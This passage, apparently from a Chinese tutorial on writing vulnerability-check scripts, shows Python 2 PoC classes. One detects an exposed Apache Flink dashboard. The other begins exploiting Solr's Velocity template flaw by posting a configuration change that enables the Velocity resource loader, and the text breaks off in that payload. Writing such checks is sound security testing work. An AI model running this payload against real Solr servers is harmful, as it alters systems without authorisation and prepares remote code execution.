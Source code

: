 ```python
		}
		# ssl._create_default_https_context = ssl._create_unverified_context
		try:
			req = urllib2.Request(url,headers=headers)
			rsp = urllib2.urlopen(req,timeout=8)
			text = rsp.read()
			if '"taskmanagers"' in text and 'flink-version' in text:
				self.result['status'] = True
				self.result['target'] = url
				self.result['method'] = 'GET'
				self.result['response'] = 'flink-version'
		except Exception as e:
			self.result['info'] = str(e)
		return self.result
```
{% endtab %}

{% tab title="多次请求" %}
代码如下

```python
#coding:utf-8
#https://www.anquanke.com/post/id/190039
import urllib2
import ssl
import re

class Pocscan(object):
	def __init__(self, target):
		self.result = {
			"status":False,
			"target":target,
		}
	def verify(self):
		headers = {
			"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
		}
		ssl._create_default_https_context = ssl._create_unverified_context
		try:
			url_core = self.result['target'].rstrip('/') + '/solr/admin/cores?indexInfo=false&wt=json'
			req = urllib2.Request(url_core,headers=headers)
			rsp = urllib2.urlopen(req,timeout=8)
			text = rsp.read()
			res = re.search(r'"instanceDir":"(.*?)",',text)
			if res == None:
				return self.result
			else:
				core = res.group(1).split('\\')[-1]
				url_config = self.result['target'].rstrip('/') + '/solr/%s/config'%(core)
				headers1 = {
					"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
					"Content-Type": "application/json"
				}
				data = '''
				{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
```